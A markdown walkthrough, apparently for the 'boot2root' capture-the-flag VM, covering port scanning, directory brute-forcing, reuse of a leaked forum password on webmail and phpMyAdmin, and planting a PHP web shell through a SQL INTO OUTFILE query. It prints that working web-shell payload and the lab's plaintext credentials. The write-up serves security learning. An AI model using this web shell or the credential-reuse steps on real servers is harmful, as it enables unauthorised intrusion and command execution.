






# Root privilege escalation - Method 1

## Get VM IP

Requirements:

- VirtualBox Guest Addition

As there is no visible IP in the virtual machine, we need to find the IP.

We could use VboxManage for this job. There is multiple way to get it.

```shell
# On host machine
VM_NAME="boot2Root"

MAC_ADDRESS=`VBoxManage showvminfo $VM_NAME | grep -oP 'MAC: \K[^",]+' | sed -e 's/[0-9A-F]\{2\}/&:/g' -e 's/:$//'` # sed adds ':' every two chars
VM_IP=`ip neighbor | grep -i $MAC_ADDRESS | cut -d' ' -f1`

export BR_HOST=$VM_IP
```

---

## Scan Ports

Requirements: nmap

Now we have the IP, we can scan the open ports with `nmap`

```shell
nmap $B2R_HOST

  Starting Nmap 7.60 ( https://nmap.org ) at 2020-12-09 11:20 CET
  Nmap scan report for BornToSecHackMe-1.home (192.168.1.72)
  Host is up (0.00016s latency).
  Not shown: 994 closed ports
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  80/tcp  open  http
  143/tcp open  imap
  443/tcp open  https
  993/tcp open  imaps

  Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
```

## Directory Bruteforcing on Web Server

Lets investigate the ports 80 (http) and 443 (https)

### Port 80

Requirements: dirb or dirbuster

```shell
dirb http://192.168.1.74

  ---- Scanning URL: https://192.168.1.73/ ----
  + http://192.168.1.74/cgi-bin/ (CODE:403|SIZE:288)
  ==> DIRECTORY: http://192.168.1.74/fonts/
  + http://192.168.1.74/forum (CODE:403|SIZE:285)
  + http://192.168.1.74/index.html (CODE:200|SIZE:1025)
  + http://192.168.1.74/server-status (CODE:403|SIZE:293)
```

#### /index.html

Static page. Nothing really interesting


#### /forum



---

### Port 443

Lets see if we are luckier with https port

```shell
dirb https://192.168.1.74

  ---- Scanning URL: https://192.168.1.74/ ----
  + https://192.168.1.74/cgi-bin/ (CODE:403|SIZE:289)
  ==> DIRECTORY: https://192.168.1.74/forum/
  ==> DIRECTORY: https://192.168.1.74/phpmyadmin/
  + https://192.168.1.74/server-status (CODE:403|SIZE:294)
  ==> DIRECTORY: https://192.168.1.74/webmail/
```

In addition to the `/forum`, we have two more directories: `phpmyadmin` and `webmail`

#### /forum

This time the forum is accessible.

One post from `lmezard` is particularly interesting: `/forum/index.php?mode=thread&id=6`
The user `lmezard` has posted a long auth log that contains string with random chars like a password.

We can image the user has typed multiples times the password, and has typed the password instead of the user.



Lets try to log in with the couple `lmezard`:`!q\]Ej?*5K5cy*AJ`

It works and we can access to the user account settings

We can see an email: `laurie@borntosec.com`. It will be useful later.

We remember there is a `/webmail` folder, lets check it out.

#### /webmail

Many people uses the same password everywhere. Does `lmezard` do it ?

We try to connect with: `laurie@borntosec.com`:`!q\]Ej?*5K5cy*AJ`

It works ! There is two mails. One object mail is: "DB ACCESS"


#### /phpmyadmin

We can access the database with the credentials `root`:`Fg-'kKXBj87E:aJ$`

##### userdata table

There is a database named `forum-db` that contains tables including `mlf2-userdata`. This table contains a field `user_pw` of 50 characters.



While looking the source code of "mlf" ([mylittleforum](https://github.com/ilosuna/mylittleforum)), we found [how the password is hashed](https://github.com/ilosuna/mylittleforum/blob/ffbea1564ec76587e37acac1d33da519729c107c/includes/functions.inc.php#L2077-L2089):

```php
function generate_pw_hash($pw)
{
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
}
```

The algorithm is SHA-1 and a selt of 10 characters if append as suffix.

Unfortunately, we never succeed to unhash the passwords.

##### Webshell

We [discover](<(https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)>) we are able to create a web shell using a SQL request.

The given webshell is:

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```

Unfortunately, we can not write at `/var/www/phpMyAdmin/cmd.php`, but it works if the path is `/tmp/aaa`. We need to find a path with correct rights.


`dirb` tool could maybe help us.

```shell
dirb https://192.168.1.74

  (...)
  ---- Entering directory: https://192.168.1.74/forum/ ----
  + https://192.168.1.74/forum/backup (CODE:403|SIZE:293)
  + https://192.168.1.74/forum/config (CODE:403|SIZE:293)
  ==> DIRECTORY: https://192.168.1.74/forum/images/
  ==> DIRECTORY: https://192.168.1.74/forum/includes/
  + https://192.168.1.74/forum/index (CODE:200|SIZE:4935)
  + https://192.168.1.74/forum/index.php (CODE:200|SIZE:4935)
  ==> DIRECTORY: https://192.168.1.74/forum/js/
  ==> DIRECTORY: https://192.168.1.74/forum/lang/
  ==> DIRECTORY: https://192.168.1.74/forum/modules/
  ==> DIRECTORY: https://192.168.1.74/forum/templates_c/
  ==> DIRECTORY: https://192.168.1.74/forum/themes/
  ==> DIRECTORY: https://192.168.1.74/forum/update/
  (...)
```

|                                      |                                                  |
| ------------------------------------ | ------------------------------------------------ |
| `/var/www/phpMyAdmin/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/cmd.php`                   | ❌ Can't create/write to file                    |
| `/var/www/forum/cmd.php`             | ❌ Can't create/write to file                    |
| `/var/www/forum/js/cmd.php`          | ❌ Can't create/write to file                    |
| `/var/www/forum/lang/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/forum/modules/cmd.php`     | ❌ Can't create/write to file                    |
| `/var/www/forum/templates_c/cmd.php` | ✅ Your SQL query has been executed successfully |

Cool, lets check it out at https://192.168.1.74/forum/templates_c/cmd.php


We have a shell-like

---

### Sources

## Hack

- [5 Ways to Directory Bruteforcing on Web Server](https://www.hackingarticles.in/5-ways-directory-bruteforcing-web-server/)
- [Linux Hacking Case Studies Part 3: phpMyAdmin](https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)

## WebShell

- [phpMyAdminWebShell.sql](https://github.com/nullbind/Other-Projects/blob/master/random/phpMyAdminWebShell.sql)

## Sources

- [mylittleforum sources](https://github.com/ilosuna/mylittleforum)

## Man

- [nmap](https://linux.die.net/man/1/nmap)
- [dirb](https://tools.kali.org/web-applications/dirb)
